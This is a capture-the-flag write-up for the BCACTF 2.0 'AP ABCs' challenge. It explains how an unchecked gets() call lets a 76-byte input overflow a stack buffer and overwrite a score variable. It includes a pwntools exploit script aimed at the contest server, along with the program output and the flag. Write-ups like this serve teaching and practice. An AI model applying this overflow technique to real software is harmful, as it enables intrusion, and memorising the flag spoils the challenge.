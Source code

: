 # BCACTF 2.0 – AP ABCs

* **Category:** Binex
* **Points:** 100
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Oh wow, they put a freshman in AP ABCs? Never thought I'd see this happen. Anyways, good luck, and make sure to not cheat on your AP test!

## Solution

The challenge page provides us with a [binary](Backup/ap-abcs)) and the [C code](Backup/ap-abcs.c) it was compiled from.

Just like the previous challenge in this category, [Honors ABCs](Honors%20ABCs.md), this challenge asks us to recite the alphabet, however instead of having to score over 100 points, we're now tasked with scoring exactly 0x73434241 points.

In order to read our input, the [gets](https://man7.org/linux/man-pages/man3/gets.3.html) function is used, which comes with a "Never use this function" warning for a good reason, it performs no boundary checks and reads until a terminating newline or EOF is read. This means that we are free to overflow the buffer that the alphabet is being read into. 

Like the previous challenge I decided to load the binary up in [Ghidra](https://ghidra-sre.org/) to look at the decompiled code to figure out how many characters we need to get to the score.

![image](Docs/ap-abcs-1.jpg)

As we can see in the decompiler output, our input alphabet is stored in local_58(rbp-0x50), and the score is stored in local_c(rbp-0x04), substracting the two gives us 0x4C or 76 characters, the same as the previously challenge. To prevent our custom score from being overwritten we have to ensure that the very first character of our input is not equal to "a", so that we break out of the scoring loop before any score is set.

So that brings us to the final solution which is 76 characters followed by the required score.

The script I used to solve this challenge is nearly the same as the previous one;
```python
from pwn import *

#p = process('ap-abcs')
p = remote('bin.bcactf.com', 49154)
p.sendline(b"z"*76 + p32(0x73434241))

p.interactive()
```

This will eventually output the following;
```
Welcome to AP ABCs!
Unlike the non-AP class, you get the privilege of taking the AP test.
Wow, I know, so exciting right??!1
Anyways, good luck!
...
Answer for 1: 
You got a 1933787713 on your APs.
Tsk tsk tsk.
Cheating on the AP® tests is really bad!
Let me read you the College Board policies:
...
And take your flag: bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}
```

So the flag for this challenge is:

`bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}`